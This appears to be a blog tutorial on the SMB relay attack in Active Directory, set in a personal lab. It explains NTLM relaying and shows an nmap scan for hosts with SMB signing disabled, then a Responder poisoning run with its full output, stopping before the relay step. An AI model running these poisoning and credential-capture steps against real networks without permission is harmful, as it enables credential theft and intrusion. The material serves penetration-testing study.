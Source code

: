```yaml
---
title: SMB Relay Attack
date: 2022-10-29 12:00:00 +0100
categories: [Network Security, Active Directory, Initial Attack Vectors]
tags: [activedirectory, networksec, redteaming, offensivesec]     # TAG names should always be lowercase
math: true
mermaid: true
---
```

## What is SMB?
The Server Message Block (SMB) protocol provides access to data, printers, and ser‐
vice endpoints (via named pipes), At a high level, SMB communication is easy to understand. SMB clients connect to an SMB server using the SMB port to access SMB shares. Once they access the SMB shares, clients can do things such as collaborate on files without downloading them to their machines or print using a networked printer.

## What is SMB Relay Attack?
SMB Relay Attack is a type of attack which relies on NTLM v2 authentication that is normally used in most companies.

Unfortunately, when we are listening to what is going on in the network, we’re able to capture a certain part of the traffic related to the authentication (using Responder) and instead of cracking hashes gathered, we can instead relay those
hashes to specific machines and potentially
gain access

But successfully relay those hashes, two conditions must be satisfied :
<br />
1. SMB signing must be disabled on the target (it's a security mechanism in the SMB protocol)
2. Relayed user credentials must be admin
on machine
<br />

![Desktop View](/assets/img/smbrelay.png){: width="972" height="589" }
_SMB Relay Attack_

## Practical Attack Scenario
I didn't find any HTB lab that contains this type of attacks so I decided to rebuild the Active Directory Lab by TCM Academy.
<br />

1. Identifying hosts with SMB signing disabled with NMAP:
```bash
┌──(cowdex㉿kali)-[~]
└─$ nmap --script smb-security-mode.nse -Pn -p445 192.168.181.140
```
2. Running Responder on the Attacker Machine:
```bash
┌──(cowdex㉿kali)-[~]
└─$ esponder -I eth0 -d -w
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.181.128]
    Responder IPv6             [fe80::20c:29ff:fefd:7a6d]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-AGGZ030QBTK]
    Responder Domain Name      [C249.LOCAL]
    Responder DCE-RPC Port     [48698]

[+] Listening for events...                                                  

[*] [DHCP] Found DHCP server IP: 192.168.181.254, now waiting for incoming requests...

```